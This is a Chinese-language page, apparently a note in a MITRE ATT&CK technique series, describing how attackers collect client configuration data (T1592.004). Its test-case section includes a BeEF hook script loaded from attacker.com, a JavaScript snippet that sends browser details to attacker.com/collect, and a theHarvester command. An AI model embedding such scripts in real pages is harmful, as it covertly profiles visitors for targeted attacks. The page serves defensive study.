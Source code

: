 # T1592-004-收集目标组织主机信息-客户端配置

## 描述
攻击者在入侵目标组织之前，可能收集目标客户端设备的配置信息，以支持目标定位和攻击规划。客户端配置信息包括操作系统类型/版本、虚拟化环境、体系结构（32位或64位）、语言设置、时区、浏览器类型/版本、User-Agent字符串或其他环境变量。这些信息可帮助攻击者了解目标设备的技术环境，识别潜在漏洞或定制攻击payload。

攻击者可能通过以下方式收集客户端配置信息：
- **主动扫描**：通过网络嗅探或Banner抓取获取User-Agent、操作系统或浏览器信息。
- **钓鱼攻击**：通过恶意网页或邮件诱导用户访问，运行脚本（如JavaScript）收集客户端配置。
- **恶意代码植入**：在受损网站植入恶意脚本（如BeEF框架），捕获访问者的设备信息。
- **公开信息搜刮**：分析公开数据（如职位发布、泄露文档、社交媒体）推测客户端配置。
- **社会工程**：伪装成合法实体，诱导员工泄露设备配置或管理凭据。

收集到的信息可能为后续攻击活动做准备，例如搜索开放网站/域（T1593）、搜索公开技术数据库（T1596）、建立运营资源（T1583/T1584）或通过供应链攻击（T1195）或外部远程服务（T1133）实现初始访问。

## 测试案例
以下是模拟攻击者收集客户端配置信息的常见方法和工具：
- **BeEF（Browser Exploitation Framework）** (<https://beefproject.com>):
  - 用于通过浏览器漏洞收集客户端信息（如操作系统、浏览器版本、插件）。
  - 示例：设置钓鱼页面，诱导用户访问并运行BeEF脚本。
    ```html
    <script src="http://attacker.com:3000/hook.js"></script>
    ```
- **JavaScript信息收集**：
  - 嵌入恶意JavaScript代码，收集User-Agent、语言、时区等信息。
    ```javascript
    var info = {
        userAgent: navigator.userAgent,
        platform: navigator.platform,
        language: navigator.language,
        screen: screen.width + "x" + screen.height
    };
    fetch('http://attacker.com/collect', {
        method: 'POST',
        body: JSON.stringify(info)
    });
    ```
- **钓鱼页面**：
  - 创建伪装的登录页面，诱导用户访问并收集客户端信息。
  - 示例：伪装成公司内部门户，嵌入BeEF或自定义脚本。
- **公开信息搜刮**：
  - 使用OSINT工具（如theHarvester）从社交媒体或公开文档提取员工设备信息。
    ```bash
    theharvester -d target.com -b linkedin -l 100 -f output.html
    ```
- **案例场景**：
  - 攻击者通过钓鱼邮件诱导员工访问包含BeEF脚本的页面，收集浏览器版本和操作系统信息，定制针对性漏洞利用。
  - 使用JavaScript脚本从目标网站访客中提取User-Agent，推测目标组织使用的Windows版本。
  - 参考案例：<https://www.kancloud.cn/wintry/p-tools/598539>，通过BeEF收集客户端配置并发起后续攻击。
